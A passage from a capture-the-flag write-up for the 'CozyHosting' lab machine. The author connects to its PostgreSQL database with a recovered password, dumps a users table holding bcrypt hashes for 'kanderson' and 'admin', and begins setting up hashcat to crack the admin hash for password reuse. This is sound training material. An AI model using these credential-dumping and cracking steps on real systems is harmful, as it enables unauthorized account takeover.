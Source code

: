 Since I have all the information needed I can now use `psql` to connect to the database.  
- `psql -h localhost -U postgres -d cozyhosting -p 5432`
- enter the password when prompted: `Vg&nvzAQ7XxR`
  
First I'll list the available databases with the `\list` command.  
```
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access
-------------+----------+----------+-------------+-------------+---------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 ...<snip>...
(4 rows)
```
  
Now I'll connect to the `cozyhoting` database using `\c cozyhosting`. Then, I'll enumerate the available tables using `\d`.  
```
              List of relations
 Schema |     Name     |   Type   |  Owner   
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
```
  
I dumped all three tables using `SELECT * FROM <table_name>;`. The hosts tables were pretty uninteresting but the users tables had password hashes.   
```
   name    |                           password                           | role 
-----------+--------------------------------------------------------------+------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```
  
## Password Cracking
  
Now that I have password hashes I'll go ahead and crack the admin password and hope that it is being re-used for either `josh` or `root`.  
  
First, place the hash in a text file for `hashcat` to read.  I'll call that `hashes.txt`. Then I'll run `hashid` to find the hash type.  
  
![HashID | 600](./screenshots/cozyhosting_hashid.png)  
  
Now lets find the number corresponding to that hash type so we can use it for the `-m` option for `hashcat`.  
- `hashcat --help | grep 'Blowfish(OpenBSD)'`
- output -> `3200 | bcrypt $2*$, Blowfish (Unix)              | Operating System`
